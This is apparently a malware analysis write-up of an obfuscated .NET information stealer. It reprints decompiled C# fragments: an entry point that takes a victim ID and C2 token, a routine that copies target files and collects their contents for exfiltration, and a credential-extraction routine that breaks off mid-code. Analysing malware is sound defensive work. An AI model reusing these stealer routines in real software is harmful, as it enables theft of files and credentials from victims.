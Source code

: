 ```
private static void Main(string[] args)
{
	if (args.Length < 2)
	{
		return;
	}
	string text = args[0];
	string text2 = args[1];
```
The first arguments is used as a GUID / victim ID, it’s appended to some collected info and used in logging / exfil.
The seconf argument is Used as an encryption key / C2 token, it’s passed to multiple methods that handle encryption and communication.

The assembly is pretty obfuscated but the following methods contain information stealing capabilities:

This method copies files from specific locations to a temporary location, reads their content, and stores them in an internal memory stream. It is used repeatedly across the malware to steal files.
```
private static bool smethod_13<T>(string sourceFile, T metadata)
{
    Class2.Class3 classData = (Class2.Class3)((object)metadata);
    string tempFile = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), Guid.NewGuid().ToString());
    try
    {
        smethod_11(sourceFile);
        File.Copy(sourceFile, tempFile, true);
        byte[] fileBytes = File.ReadAllBytes(tempFile);
        string targetName = classData.string_0 + sourceFile.Replace(classData.string_1, "");
        smethod_4(1, fileBytes, fileBytes.Length, targetName);
        classData.int_0++;
        if (classData.bool_0)
        {
            smethod_10(sourceFile, WindowsIdentity.GetCurrent().Name);
        }
        File.Delete(tempFile);
    }
    catch
    {
    }
    return true;
}
```

Extracts encrypted credentials from files:

```
private static byte[] smethod_18(string path)
{
    byte[] decryptedData = new byte[0];
    try
    {
        byte[] fileContent = File.ReadAllBytes(path);
        string fileText = Encoding.Default.GetString(fileContent);

        foreach (Match match in new Regex(...).Matches(fileText))
        {
            if (match.Success)
            {
                byte[] encryptedData = Convert.FromBase64String(match.Groups[1].Value);
                byte[] dataToDecrypt = new byte[encryptedData.Length - 5];
                Array.Copy(encryptedData, 5, dataToDecrypt, 0, encryptedData.Length - 5);

```
